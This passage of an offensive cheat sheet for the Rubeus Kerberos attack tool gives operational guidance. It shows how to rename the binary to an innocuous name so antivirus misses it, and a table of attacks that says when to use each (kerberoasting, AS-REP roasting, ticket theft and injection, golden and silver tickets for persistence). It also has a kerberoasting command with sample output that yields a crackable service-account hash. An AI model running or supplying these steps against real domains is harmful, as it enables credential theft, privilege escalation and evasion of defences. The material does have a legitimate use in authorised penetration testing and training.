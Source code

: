 **Method 4: Renamed (Basic AV Bypass)**
```powershell
# Rename to something innocuous
cp Rubeus.exe Update-Helper.exe
.\Update-Helper.exe kerberoast
```

---

## Core Attacks - When to Use What

| Attack | Use When | Admin Required? | Output | Time |
|--------|----------|-----------------|--------|------|
| **kerberoast** | Need service account creds | No | Crackable hashes | 30 sec |
| **asreproast** | Have usernames, no creds | No | Crackable hashes | 30 sec |
| **ptt** | Have stolen ticket | No (usually) | Ticket injected | 5 sec |
| **triage** | See what tickets exist | Yes (own session) | Ticket list | 5 sec |
| **dump** | Steal all tickets | Yes (SYSTEM) | .kirbi files | 10 sec |
| **monitor** | Wait for DA ticket | Yes | Real-time capture | Continuous |
| **golden** | Create persistence | Need krbtgt hash | TGT | 10 sec |
| **silver** | Access specific service | Need service hash | TGS | 10 sec |

---

## 1. Kerberoasting (Most Common)

### Basic Kerberoasting

**When:** You have domain user access (even low-privilege)

```powershell
# Find and request all SPNs
Rubeus.exe kerberoast

# Output:
# [*] Action: Kerberoasting
# [*] Target Domain: corp.local
# 
# [*] Searching path 'LDAP://DC01.corp.local/DC=corp,DC=local' for SPNs
# [*] Total kerberoastable users: 3
# 
# [*] SamAccountName         : sqlservice
# [*] DistinguishedName      : CN=SQL Service,OU=Service Accounts,DC=corp,DC=local
# [*] ServicePrincipalName   : MSSQLSvc/SQL01.corp.local:1433
# [*] PwdLastSet             : 3/15/2020 10:23:45 AM
# [*] Supported ETypes       : RC4_HMAC_DEFAULT
# [*] Hash                   : $krb5tgs$23$*sqlservice$corp.local$MSSQLSvc/SQL01*$ABC123...
```

---